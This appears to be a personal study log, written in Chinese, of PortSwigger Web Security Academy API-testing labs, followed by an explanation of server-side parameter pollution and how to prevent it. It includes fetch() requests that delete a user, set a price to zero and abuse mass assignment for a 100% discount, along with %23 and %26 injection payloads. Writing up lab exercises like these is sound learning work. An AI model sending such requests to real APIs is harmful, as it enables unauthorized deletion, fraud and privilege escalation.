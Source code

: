 ```yaml
---
title: API testing
description: API testing
---
```


## Lab: Exploiting an API endpoint using documentation

| Dimension | Description                                                                                      |
| --------- | ------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/api-testing#discovering-api-documentation                   |
| Lab       | https://portswigger.net/web-security/api-testing/lab-exploiting-api-endpoint-using-documentation |

這題的 `/api` 有公開 API 文件

登入後

```js
fetch(`${location.origin}/api/user/carlos`, { method: "delete" });
```

成功解題～

## Lab: Finding and exploiting an unused API endpoint

| Dimension | Description                                                                         |
| --------- | ----------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/api-testing#identifying-api-endpoints          |
| Lab       | https://portswigger.net/web-security/api-testing/lab-exploiting-unused-api-endpoint |

這題算蠻明顯的(?)進入商品頁有戳 https://0adc005f04ac86ae83fb50b500350097.web-security-academy.net/api/products/1/price，嘗試構造

```js
fetch(
  "https://0adc005f04ac86ae83fb50b500350097.web-security-academy.net/api/products/1/price",
  {
    method: "patch",
    headers: {
      "Content-Type": "application/json",
    },
    body: JSON.stringify({ price: 0 }),
  },
);
```

## Lab: Exploiting a mass assignment vulnerability

| Dimension | Description                                                                                   |
| --------- | --------------------------------------------------------------------------------------------- |
| Document  | https://portswigger.net/web-security/api-testing#mass-assignment-vulnerabilities              |
| Lab       | https://portswigger.net/web-security/api-testing/lab-exploiting-mass-assignment-vulnerability |

這題我嘗試過 `/change-email` 搭配 `isAdmin`，也嘗試 PATCH https://0a37007203736e3f832506750093001f.web-security-academy.net/product?productId=1 都沒用

後來發現 `/api` 有公開 API 文件，嘗試

```js
fetch(`${location.origin}/api/checkout`, {
  method: "post",
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    chosen_products: [
      {
        product_id: "1",
        quantity: 1,
        item_price: 0,
      },
    ],
  }),
});
```

說錢錢不夠，之後嘗試

```js
fetch(`${location.origin}/api/checkout`, {
  method: "post",
  headers: {
    "content-type": "application/json",
  },
  body: JSON.stringify({
    chosen_discount: { percentage: 100 },
    chosen_products: [
      {
        product_id: "1",
        quantity: 1,
      },
    ],
  }),
});
```

成功通關～果然有 API 文件就是舒服

## server-side parameter pollution in the query string

https://portswigger.net/web-security/api-testing/server-side-parameter-pollution?a=1#testing-for-server-side-parameter-pollution-in-the-query-string

1. 利用 (%23) # 截斷隱藏的 querystring

這裡很巧妙的利用了 URL encode 的技巧

假設 client 端送了 `GET /user?name=peter`

server 會再去戳一個 internal API `GET /users/search?name=peter&publicProfile=true`

那 client 端可以送 `GET /user?name=peter%23foo`

server 取得 searchParams.name 會拿到 `peter#foo`

```js
// 假設 server 是 NodeJS，使用 URLSearchParams 來解析 querystring
// 不管用什麼程式語言，核心概念是，解析時會經過一次 URL decode
new URLSearchParams(`name=peter%23foo`).get("name"); // peter#foo
```

server 再把 `peter#foo` 加到 internal API 的 querystring `GET /users/search?name=peter#foo&publicProfile=true`

```js
// 假設 server 是 NodeJS，使用 fetch 來發送 HTTP Request 到 internal api
// 不管用什麼程式語言，弱點在於，使用字串拼接 querystring
fetch(
  `http://internal.api.com/users/search?name=${new URLSearchParams(`name=peter%23foo`).get("name")}&publicProfile=true`,
);
```

這樣 URL fragment 就會被截斷，我們就可以成功把 `&publicProfile=true` 截斷，也許就可以取得非公開的使用者資訊

2. 利用 %26 (&) 注入新的 querystring

這裡也是很巧妙的利用了 URL encode 的技巧

假設 client 端送了 `GET /user?name=peter`

server 會再去戳一個 internal API `GET /users/search?name=peter`

那 client 端可以送 `GET /user?name=peter%26role=admin`

server 取得 searchParams.name 會拿到 `peter&role=admin`

```js
// 假設 server 是 NodeJS，使用 URLSearchParams 來解析 querystring
// 不管用什麼程式語言，核心概念是，解析時會經過一次 URL decode
new URLSearchParams(`name=peter%26role=admin`).get("name"); // peter&role=admin
```

server 再把 `peter&role=admin` 加到 internal API 的 querystring `GET /users/search?name=peter&role=admin`

```js
// 假設 server 是 NodeJS，使用 fetch 來發送 HTTP Request 到 internal api
// 不管用什麼程式語言，弱點在於，使用字串拼接 querystring
fetch(
  `http://internal.api.com/users/search?name=${new URLSearchParams(`name=peter%26role=admin`).get("name")}`,
);
```

這樣 URL searchParams 就會注入 `&role=admin`，也許就可以取得 admin 使用者資訊

3. How to prevent?

```js
const name = new URLSearchParams(`name=peter%26role=admin`).get("name");

// ❌，字串拼接
const vulnSearch = `name=${name}`; // name=peter&role=admin

// ✅，使用程式語言提供的 searchParams.set
const sp = new URLSearchParams();
sp.set("name", name);
const robustSearch = sp.toString(); // name=peter%26role%3Dadmin
```

## Lab: Exploiting server-side parameter pollution in a query string

| Dimension | Description                                                                                                                                      |
| --------- | ------------------------------------------------------------------------------------------------------------------------------------------------ |
| Document  | https://portswigger.net/web-security/api-testing/server-side-parameter-pollution#testing-for-server-side-parameter-pollution-in-the-query-string |
| Lab       | https://portswigger.net/web-security/api-testing/server-side-parameter-pollution/lab-exploiting-server-side-parameter-pollution-in-query-string  |

這題是 querystring 會吃到後面的那個

https://0ac200260456957680e71cd400bd0060.web-security-academy.net/product?productId=1&productId=2 實際上會去拿 productId=2

忘記密碼功能，觀察 forgotPassword.js

```js
forgotPwdReady(() => {
  const queryString = window.location.search;
  const urlParams = new URLSearchParams(queryString);
  const resetToken = urlParams.get("reset-token");
  if (resetToken) {
    window.location.href = `/forgot-password?reset_token=${resetToken}`;
  } else {
    const forgotPasswordBtn = document.getElementById("forgot-password-btn");
    forgotPasswordBtn.addEventListener("click", displayMsg);
  }
});
```

嘗試訪問 https://0ac200260456957680e71cd400bd0060.web-security-academy.net/forgot-password?reset_token=1，只得到 `"Invalid token"`

這題我做到這邊就卡關了，後來是參考解答的步驟，但還是覺得有點牽強(?)

<!-- todo-yus 原理 -->

## 參考資料

- https://portswigger.net/web-security/api-testing
